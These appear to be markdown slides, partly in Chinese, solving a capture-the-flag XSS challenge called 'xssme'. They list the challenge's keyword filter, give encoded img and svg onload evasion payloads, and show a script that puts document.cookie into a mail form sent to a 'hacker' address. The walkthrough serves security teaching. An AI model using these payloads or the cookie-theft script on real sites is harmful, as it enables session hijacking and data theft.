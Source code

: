```
---

## xssme filter
* content filter(part)
  * )
  * <script
  * &nbsp;onload
  * &nbsp;onerror
  * location.href
  * eval
* pass
```
<a>a</a>, <img src="HTMLencode(javascript:alert(1);)">
<svg/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>
```
* [Back to xssme hint](#/22)

Note:[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#Basic_XSS_Test_Without_Filter_Evasion)

---

## xssme encode
* HTML encode
  * [Decimal HTML character references](https://www.hashemian.com/tools/html-url-encode-decode.php)
    * htmlEncode("&lt;script>alert(1)&lt;/script>"), 的運作原理是先轉成 HTML 之後, 全部都被當成符號, 所以不會運行.
    * `<img src="htmlEncode">`, 的運作原理是先轉成 HTML 之後, 被 src 語法運行.
  * Hexadecimal HTML character references

Note:
* [詳細解說幾個建置網站時常用的編碼方法](https://blog.miniasp.com/post/2008/11/05/Explain-web-related-encoding-decoding-method-in-detail.aspx)
* URL encode
* base64 encode
* Unicode 方式進行編碼

---

## xssme construct 1
* sample code
```
location.href = 'sendmail.php?to=hacker';
document.getElementById("to_user").value = "hacker";
document.getElementById("subject").value = "cookie";
document.getElementById("content").value = document.cookie;
im_robot.click();
document.getElementsByTagName("form")[0].submit();
```
* challenge
  * how to pass javascript to sendmail page
    * setTimeout();
  * sendmail page parameter(to)
    * 漏網之魚, no filter.

---

## xssme construct 1
* sendmail.php?to=
* ">&lt;script>alert(1);&lt;/script><" 
  * `setTimeout(function(){alert(1)},3000);`
    * `alert(1);im_robot.click();`
    * `console.log(document.getElementById('subject').value);`
    * `document.getElementById('subject').setAttribute('value','cookie');`
```